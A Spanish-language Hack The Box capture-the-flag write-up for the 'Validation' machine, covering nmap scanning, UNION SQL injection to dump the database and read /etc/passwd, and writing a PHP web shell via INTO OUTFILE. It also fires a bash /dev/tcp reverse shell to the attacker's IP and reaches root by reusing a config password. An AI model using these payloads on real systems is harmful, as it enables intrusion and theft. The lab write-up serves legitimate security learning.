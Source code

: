 ```yaml
---
title: Hack The Box Validation
author: k4miyo
date: 2022-04-12
math: true
mermaid: true
image:
  path: /assets/images/htb/hackthebox.png
categories: [Easy, Linux]
tags: [SQLi]
ping: true
---
```


## Validation
Se procede con la fase de reconocimiento lanzando primeramente un `ping` a la dirección IP 10.10.11.116.

```bash
❯ ping -c 1 10.10.11.116
PING 10.10.11.116 (10.10.11.116) 56(84) bytes of data.
64 bytes from 10.10.11.116: icmp_seq=1 ttl=63 time=139 ms

--- 10.10.11.116 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 139.123/139.123/139.123/0.000 ms
```

De acuerdo con el TTL de traza ICMP, se puede determinar que se trata de una máquina con sistema operativo Linux. A continuación se procede con la ejecución de `nmap` para determinar los puertos abiertos de la máquina y exportanto la información al archivo **allPorts**.

```bash
❯ nmap -p- --open -T5 -v -n 10.10.11.116 -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-14 21:00 CDT
Initiating Ping Scan at 21:00                                   
Scanning 10.10.11.116 [4 ports]                                                                                                  
Completed Ping Scan at 21:00, 0.15s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 21:00
Scanning 10.10.11.116 [65535 ports]                                                                                              
Discovered open port 22/tcp on 10.10.11.116                                                                                      
Discovered open port 8080/tcp on 10.10.11.116
Discovered open port 80/tcp on 10.10.11.116
Discovered open port 4566/tcp on 10.10.11.116
Completed SYN Stealth Scan at 21:01, 49.60s elapsed (65535 total ports)
Nmap scan report for 10.10.11.116
Host is up (0.14s latency).
Not shown: 65522 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE                                                                                                           
22/tcp   open  ssh     
80/tcp   open  http                                                                                                              
4566/tcp open  kwtc            
8080/tcp open  http-proxy                                                                                                        
                                
Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 50.28 seconds
           Raw packets sent: 80154 (3.527MB) | Rcvd: 79194 (3.168MB)
```

Mediante la función [extractPorts](/posts/extractPorts) definida a nivel de `zsh` , se obtiene la información más relevante de la captura grepeable.

```bash
❯ extractPorts allPorts                                         
───────┬──────────────────────────────────────
       │ File: extractPorts.tmp                                 
───────┼──────────────────────────────────────
   1   │                                                                                                                         
   2   │ [*] Extracting information...
   3   │                                                                                                                         
   4   │     [*] IP Address: 10.10.11.116
   5   │     [*] Open ports: 22,80,4566,8080
   6   │ 
   7   │ [*] Ports copied to clipboard
```

A continuación se lanza una serie de scripts para determinar el servicio y versión que corren para los puertos detectados.

```bash
❯ nmap -sC -sV -p22,80,4566,8080 10.10.11.116 -oN targeted
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-14 21:02 CDT
Nmap scan report for 10.10.11.116
Host is up (0.14s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d8:f5:ef:d2:d3:f9:8d:ad:c6:cf:24:85:94:26:ef:7a (RSA)
|   256 46:3d:6b:cb:a8:19:eb:6a:d0:68:86:94:86:73:e1:72 (ECDSA)
|_  256 70:32:d7:e3:77:c1:4a:cf:47:2a:de:e5:08:7a:f8:7a (ED25519)
80/tcp   open  http    Apache httpd 2.4.48 ((Debian))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.48 (Debian)
4566/tcp open  http    nginx
|_http-title: 403 Forbidden
8080/tcp open  http    nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.44 seconds
```

Nos encontramos con varios puertos que tienen el servicio HTTP corriendo, así que antes de visualizar el contenido vía web, vamos a ver a lo que nos enfrentamos con la herramienta `whatweb`:

```bash
❯ whatweb http://10.10.11.116/
http://10.10.11.116/ [200 OK] Apache[2.4.48], Bootstrap, Country[RESERVED][ZZ], HTTPServer[Debian Linux][Apache/2.4.48 (Debian)], IP[10.10.11.116], JQuery, PHP[7.4.23], Script, X-Powered-By[PHP/7.4.23]
❯ whatweb http://10.10.11.116:4566/
http://10.10.11.116:4566/ [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[403 Forbidden], nginx
❯ whatweb http://10.10.11.116:8080/
http://10.10.11.116:8080/ [502 Bad Gateway] Country[RESERVED][ZZ], HTTPServer[nginx], IP[10.10.11.116], Title[502 Bad Gateway], nginx
```

Poco más podemos ver que lo que ya nos ha reportado `nmap`; por lo que vamos a ver vía web:

![""](/assets/images/htb-validation/validation-web.png)

Vemos que podemos ingresar un usuario, vamos a hacer algunas pruebas:

- `admin` - Vemos que se agrega al país que seleccionamos.
- `admin'` - Vemos que se agrega al país que seleccionamos con la *'*.
- `<h1>admin</h1>` - Es vulnerable a HTML Injection.
- `<script>admin</script>` - Es vulnerable a XSS.

No podemos hacer nada en este punto, así que vamos a ver como se tramita la petición y tenemos que se envían los campos **username** y **country**; por lo que vamos a interceptar la petición con **BurpSuite** y la mandamos al **Repeater**:

![""](/assets/images/htb-validation/validation-burp.png)

Agregamos una comilla simple al país y enviamos la petición.

![""](/assets/images/htb-validation/validation-burp1.png)

Al realizar las pruebas, para **Brazil** no se reflejaban las inyecciones que hacía; así que probé con otro país y ya comenzaron a reflejarse los cambios, para este caso **Mexico**. Ahora vamos a realizar las inyecciones siguientes:

- `username=k4miyo&country=Mexico' union select 1-- -` - Vemos que el campo del nombre de usuario cambia al valor 1.
- `username=k4miyo&country=Mexico' union select "test"-- -`: Vemos que el campo del nombre de usuario cambia al valor "test".
- `username=k4miyo&country=Mexico' union select database()-- -`: Vemos que el campo del nombre de usuario cambia al nombre de la base de datos, para este caso es **registration**.
- `username=k4miyo&country=Mexico' union select schema_name from information_schema.schemata-- -`: Tenemos los nombres de las bases de datos: **information_schema**, **performance_schema**, **mysql** y **registration**.
- `username=k4miyo&country=Mexico' union select table_name from information_schema.tables where table_schema="registration"-- -`: Vemos los nombres de las tablas presentes en la base de datos **registration**, en este caso **registration**.
- `username=k4miyo&country=Mexico' union select column_name from information_schema.columns where table_schema="registration" and table_name="registration"-- -` Obtenemos los nombres de las columnas de la tabla **registration**, las cuales son: **username**, **userhash**, **country** y **regtime**.
- `username=k4miyo&country=Mexico' union select group_concat(username,0x3a,userhash) from registration.registration-- -` Obtenemos los campos **username** y **userhash**.

A partir de aquí no tenemos nada interesante, pero podríamos tratar de ver recursos en la máquina y tratar de subir algún archivo:

- `username=k4miyo&country=Mexico' union select load_file("/etc/passwd")-- -` Podemos ver el `/etc/passwd` de la máquina víctima.
- `username=k4miyo&country=Afganistan' union select "<?php echo shell_exec($_REQUEST['cmd']); ?>" into outfile "/var/www/html/k4mishell.php" -- -` Podemos subir archivos en la ruta `/var/www/html` y en este caso un archivo php con la cual podemos ejecutar comandos a nivel de sistema.

![""](/assets/images/htb-validation/validation-web1.png)

Si tratamos de entablarnos una reverse shell, vemos que no nos funciona o que la conexión se muere rápidamente. Por lo tanto, trataremos de hacerlo con python; así que nos ponemos en escucha por el puerto 443:

```bash
❯ python3
Python 3.9.2 (default, Feb 28 2021, 17:03:44) 
[GCC 10.2.1 20210110] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> data = {'cmd' : "bash -c 'bash -i >& /dev/tcp/10.10.14.27/443 0>&1'"}
>>> import requests
>>> r = requests.post('http://10.10.11.116/k4mishell.php', data=data)
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.11.116] 43018
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@validation:/var/www/html$ whoami
whoami
www-data
www-data@validation:/var/www/html$ 
```

Ya ingresamos a la máquina como el usuario **www-data** y para trabajar más cómodos, vamos a hacer un [Tratamiento de la tty](/posts/tratamiento-tty). Vemos que podemos visualizar la primer flag (user.txt). Ahora vamos a enumerar un poco el sistema para ver de que forma podemos escalar privilegios:

```bash
www-data@validation:/home/htb$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@validation:/home/htb$ sudo -l
bash: sudo: command not found
www-data@validation:/home/htb$ cd /var/www/html/
www-data@validation:/var/www/html$ ls -l
total 40
-rw-r--r-- 1 www-data www-data  1550 Sep  2  2021 account.php
-rw-r--r-- 1 www-data www-data   191 Sep  2  2021 config.php
drwxr-xr-x 1 www-data www-data  4096 Sep  2  2021 css
-rw-r--r-- 1 www-data www-data 16833 Sep 16  2021 index.php
drwxr-xr-x 1 www-data www-data  4096 Sep 16  2021 js
-rw-r--r-- 1 mysql    mysql       65 Apr 11 18:37 k4mishell.php
www-data@validation:/var/www/html$ cat config.php 
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
www-data@validation:/var/www/html$
```

Tenemos una contraseña dentro del archivo `config.php`, suponiendo que se aplica reutilización de credenciales, podriamos ver si aplicar para el usuario **root**:

```bash
www-data@validation:/var/www/html$ su root
Password: 
root@validation:/var/www/html# whoami
root
root@validation:/var/www/html#
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).

Se comparte un autopwn de la máquina [Validation-Autopwn](https://github.com/k4miyo/Validation-Autopwn).

